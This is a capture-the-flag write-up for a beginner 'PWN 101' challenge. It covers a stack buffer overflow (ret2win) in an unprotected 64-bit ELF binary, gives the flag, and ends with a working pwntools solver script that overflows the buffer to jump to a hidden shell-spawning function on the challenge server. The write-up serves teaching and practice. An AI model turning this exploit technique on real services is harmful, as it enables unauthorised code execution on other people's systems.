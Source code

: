 ```yaml
---
icon: binary
description: 'Author: Fedra'
---
```


# 101 - PWN

FLAG

```
TSA{PWN_101_2d2de462ebe19a876eb74b1c9c053120}
```

## Analysis

We got a file which is ELF 64-bit which when executed it request an input of name. After checking the protection that exist on the file using Checksec, it found that there's no any protection that exist. Then we decompile it using Ghidra and found two interesting function, which is `main` function and `secret` function. Here's a picture of the each function details:

<figure><img src="../../.gitbook/assets/Screenshot 2024-11-11 124632.png" alt=""><figcaption><p>Main Function</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot 2024-11-11 124758.png" alt=""><figcaption><p>Secret Function</p></figcaption></figure>

As we can see, that this function of `main` is literally have an array which store our input only up to 128 length as our input. So it could be concluded that this is a classic Buffer Overflow exploitation or ret2win problem. And as of the secret function there's some line of program that execute what we needed which executing the shell for us. Throughout the analyzation that has been done we need the address of the secret function, the return address and the offset.

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption><p>Address of Secret Function</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption><p>Return Address</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption><p>Offset</p></figcaption></figure>

We need the gadget of return because if we not done so it will receive segmentation fault and not returning the shell to us. After we got all it needed to gain the shell, then make the program using pwntools library to execute the command as it needed to gain the shell. Where the logics that would be implemented on the program are as follows:

1. Create a variable that contains a random character to fill as the known offset of the program before reaching the buffer overflow.
2. then append to the variable which is a return address
3. last but not least, append the address of secret function
4. next send it to the server
5. Voila, we got the shell!!



## Solver Script

```python
from pwn import *
e  = context.binary = ELF('/home/xis/Downloads/pwn')
p = remote('0.cloud.chals.io', 32229)
payload = b'A' * 136
payload += p64(0x40101a)
payload += p64(0x401196)
p.recvuntil(b"[>] Nama: ")
p.sendline(payload)
p.interactive()

```
